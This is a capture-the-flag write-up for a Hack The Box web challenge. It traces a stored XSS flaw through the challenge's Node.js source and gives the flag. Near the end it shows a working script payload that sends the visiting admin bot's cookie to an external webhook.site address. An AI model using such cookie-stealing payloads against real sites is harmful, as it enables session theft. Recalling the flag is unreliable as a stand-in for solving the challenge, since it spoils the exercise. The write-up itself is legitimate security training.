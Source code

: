 # Cyber Santa is Coming to Town: Toy Workshop

![Author: crxzii](https://img.shields.io/badge/Author-crxzii-blue.svg) ![Contest Date: 05.12.2021](https://img.shields.io/badge/Contest%20Date-05.12.2021-lightgrey.svg)

![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg) ![Category: Web](https://img.shields.io/badge/Category-Web-lightgrey.svg) ![Score: 300](https://img.shields.io/badge/Score-300-brightgreen.svg)

## Description

> The work is going well on Santa's toy workshop but we lost contact with the manager in charge! We suspect the evil elves have taken over the workshop, can you talk to the worker elves and find out?


## Attached Files

- web_toy_workshop.zip

A Zip file containing the full docker source code.

## Summary

We use a vulnerability to parse an XSS payload into the website, which is then being accessed by the 'admin' of the page, who has the flag stored in the cookie.

## Flag

```
HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
```

## Detailed Solution

Taking a look at the bot.js file, we can see, that the flag is stored in the bot's cookie:

```js
const cookies = [{
	'name': 'flag',
	'value': 'HTB{f4k3_fl4g_f0r_t3st1ng}'
}];
```

We can also see, that it will access the `http://127.0.0.1:1337/queries` Url:

```js
const readQueries = async (db) => {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		await page.goto('http://127.0.0.1:1337/');
		await page.setCookie(...cookies);
		await page.goto('http://127.0.0.1:1337/queries', {
			waitUntil: 'networkidle2'
		});
		await browser.close();
		await db.migrate();
};
```

So let's take a look the contents of the `/queries` endpoint.

```js
router.get("/queries", async (req, res, next) => {
  if (req.ip != "127.0.0.1") return res.redirect("/");

  return db
    .getQueries()
    .then((queries) => {
      res.render("queries", { queries });
    })
    .catch(() => res.status(500).send(response("Something went wrong!")));
});
```

The queries endpoint will just render all elements from the database, without any cleanup. This seems interesting, this rings my alarm for XSS! So let's take a look how elements are put into the database.

We can find an endpoint, that inserts data into the database. Important to notice: It just takes the input and writes it into the db. No cleanup or checks again. This definitely gives us possible XSS.

```js
router.post("/api/submit", async (req, res) => {
  const { query } = req.body;
  if (query) {
    return db.addQuery(query).then(() => {
      bot.readQueries(db);
      res.send(response("Your message is delivered successfully!"));
    });
  }
  return res.status(403).send(response("Please write your query first!"));
});
```

Right here we can go ahead and send our payload via a curl request for example. <br>
But there is another interesting thing to find is in the `index.js` file.
<br>

```js
$(document).ready(() => {
    $('#submit-btn').on('click', submit);
});

const elf_info = (elf_id) => {
    inst = $('[data-remodal-id=modal]').remodal();
    inst.open();
    $('#elfavatar').attr('src',`/static/images/elf${elf_id}.png`);
    $('#elfname').text((elf_id == 1) ? 'Lhoris Farrie' : 'Ievis Chaeqirelle');
}

const submit = async () => {
    $('#submit-btn').prop('disabled', true);

	// prepare alert
	let card = $('#resp-msg');
	card.attr('class', 'alert alert-info');
	card.hide();

	// validate
	let query = $('#query').val();
	if ($.trim(query) === '') {
		$('#submit-btn').prop('disabled', false);
		card.text('Please input your query first!');
		card.attr('class', 'alert alert-danger');
		card.show();
		return;
	}

	await fetch('/api/submit', {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify({query: query}),
		})
		.then((response) => response.json()
			.then((resp) => {
				card.attr('class', 'alert alert-danger');
				if (response.status == 200) {
					card.attr('class', 'alert alert-success');
				}
				card.text(resp.message);
				card.show();
			}))
		.catch((error) => {
			card.text(error);
			card.attr('class', 'alert alert-danger');
			card.show();
		});

        $('#submit-btn').prop('disabled', false);
}
```

We see a function called `elf_info`, which accesses the endpoint to add data to the database.<br>
Let's see if we can call this function via the developer console!

![Using command in console](https://i.gyazo.com/1f5ac4cd3e5bf384d58ac6e79683ba8d.png)

And tada! We got the window we need to easily insert data into the database.<br>
Now we build an easy XSS payload using the website `https://webhook.site` to receive the cookie data.

```html
<script> document.write('<img src="https://webhook.site/XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX?cookie='+document.cookie+'" />'); </script>
```

Inserting this script, submitting and waiting a few minutes for the bot to access the website, we get it's cookie!

![Cookie gotten via webhook.site](https://i.gyazo.com/eb2ee4ba367e27680bd3e9b396f3a532.png)

And there we can see our flag `HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`!

